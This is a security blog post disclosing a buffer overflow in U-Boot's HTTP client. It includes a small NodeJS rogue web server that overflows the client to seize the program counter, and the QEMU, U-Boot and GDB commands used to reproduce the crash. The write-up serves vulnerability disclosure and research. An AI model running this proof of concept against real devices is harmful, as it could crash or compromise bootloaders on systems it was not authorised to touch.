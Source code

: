 ```yaml
---
layout: posts
title: "U-Boot HTTP Client"
date: 2023-02-06 00:00:00 -0600
categories: u-boot http
author: Nicholas Starke
---
```


Recently, the U-Boot Bootloader introduced HTTP support for remote booting.  More information about this feature introduction can be read at the linaro blog here: [https://www.linaro.org/blog/http-now-supported-in-u-boot/](https://www.linaro.org/blog/http-now-supported-in-u-boot/).

This blog post will look at the implementation of the U-Boot HTTP Client and discuss some of its shortcoming in its present form.

The HTTP Client is implemented here: [https://source.denx.de/u-boot/u-boot/-/blob/master/net/wget.c](https://source.denx.de/u-boot/u-boot/-/blob/master/net/wget.c)

As it currently is implemented, there is a buffer overflow in the HTTP Client implementation.

I was able to take control of the Instruction Pointer (`$PC`) using a relatively simple proof of concept rogue web server:

## Proof of Concept

```javascript
// Forgive me for writing this poorly and in NodeJS...
const net = require('net');

const response = [
    'HTTP/1.0 200 ' + 'A'.repeat(1024 * 1024 * 86),
    '\r\n'
].join('\r\n');

const socket = net.createServer(function (c) {
    c.write(response);
    c.end()
});

socket.listen(80, function() {
    console.log('server running');
});
```

Screenshot:

![](/images/02062023/bof.png)

## Impact

This could potentially be used to remotely compromise a U-Boot based device that relies on U-Boot's HTTP Boot. To the best of my knowledge, no such hardware device currently exists. All testing in this blog post was performed in a virtualized environment with `qemu-system`.

I am not sure what the goal of an exploit would be, but I think the most likely objective would be to try to load a different boot image than the one the administrator is expecting; but even this is a stretch.  

If you can control the webserver the wget request is issued to, you can control the image that comes back to the host for it to boot.  If hardware root of trust features were enabled, this could be used to bypass the hardware root of trust.  

If you can control any part of the network, since the traffic is over HTTP you could simply Machine in the Middle the network traffic and send your own boot image as well. 

## Analysis

If you want to consider this a vulnerability, writing an exploit that will work **at all**, let alone across device models, is going to be difficult.  In a virtualized environment, a successful exploit is going to depend noy only on the amount of system memory, but more importantly, the `$loadaddr` parameter value passed into the `wget` command within the U-Boot CLI.  Since that can vary at runtime, trying to build an exploit is going to be difficult. 

I don't consider this a vulnerability because of its recent implementation and the slow adoption of new U-Boot versions. No one uses this feature yet.

## A Note About Disclosure

The HTTP client is a very recently implemented feature and has not to my knowledge been included in a major U-boot release yet. Also, the U-Boot maintainers do not have any form of private security contact method, so I'm just full disclosing this. If this rubs anyone the wrong way, consider reaching out to the U-Boot project and asking them to set up a `security@` email inbox.

## Methodology

I followed the instructions I wrote up [here](/qemu/u-boot/bootloader/2021/01/20/qemu-system-execute-raw-binary-u-boot-image.html) and then attached a GDB-multiarch instance to the VM process by adding `-s -S` to the qemu-system command.  So in full, my qemu-system command looked like this:

```
qemu-system-arm -M vexpress-a9 -device loader,file=u-boot.bin,addr=0x60800000,cpu-num=0,force-raw=on -s -S -nographic
```

The U-Boot CLI Commands I used were:

```
setenv autoload 0;dhcp
wget $loadaddr 172.19.222.219:/
```

Where `172.19.222.219` is the IP address of the nodejs POC server running on port 80.

The GDB commands I used on top of pwndbg were:

```
target remote :1234
file u-boot
b *0x41414141
```

The `file u-boot` command loads the `u-boot` file from the current u-boot directory:

```
$ file u-boot
u-boot: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, with debug_info, not stripped
```

This is the ELF symbol file that u-boot generates at compile time.  